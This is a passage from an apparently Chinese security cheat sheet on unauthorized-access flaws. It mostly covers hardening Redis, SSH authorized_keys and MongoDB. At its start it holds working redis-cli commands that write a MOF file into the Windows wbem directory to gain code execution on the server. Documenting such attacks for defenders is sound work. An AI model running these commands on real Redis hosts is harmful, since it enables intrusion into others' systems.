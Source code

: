 然后执行

```bash
(echo -e "nn"; cat mof.txt; echo -e "nn") > foo.txt
cat foo.txt | redis-cli -h 192.168.1.10 -x set mof
redis-cli -h 192.168.1.10
config set dir c:/windows/system32/wbem/mof/
config set dbfilename wintrysec.mof
save
```

### 修复建议

> - 使用强密码认证
> - 降权运行 `g roupadd -r redis && useradd -r -g redis redis`，用低权限账户
> - protected mode限制`ip`禁止外网访问/修改默认端口   ( `redis.conf` )
> - `Redis`默认不生成日志，可以自己[配置](https://www.freebuf.com/column/158065.html)

**设置防火墙策略**

如果正常业务中`Redis`服务需要被其他服务器来访问，可以设置`iptables`策略仅允许指定的`IP`来访问`Redis`服务

**保证 authorized_keys 文件的安全**

为了保证安全，应该阻止其他用户添加新的公钥。

将 authorized_keys 的权限设置为对拥有者只读，其他用户没有任何权限 ：

```bash
chmod 400 ~/.ssh/authorized_keys
```

为保证 authorized_keys 的权限不会被改掉，还需要设置该文件的 immutable 位权限

```bash
chattr +i ~/.ssh/authorized_keys
```

但是，用户还可以重命名 ~/.ssh，然后新建新的 ~/.ssh 目录和 authorized_keys 文件。

要避免这种情况，需要设置 ~./ssh 的 immutable 权限

```bash
chattr +i ~/.ssh
```

## MongoDB 未授权访问

MongoDB 默认是没有权限验证的，登录的用户可以通过默认端口无需密码对数据库任意操作(增删改高危动作)，而且可以远程访问数据库

1、验证

```bash
telnet 目标IP 27017测试端口是否开放

Navicat直接连接。
若报错 wire version 0，则可以切换兼容的Robo3T连接。
```

2、修复建议
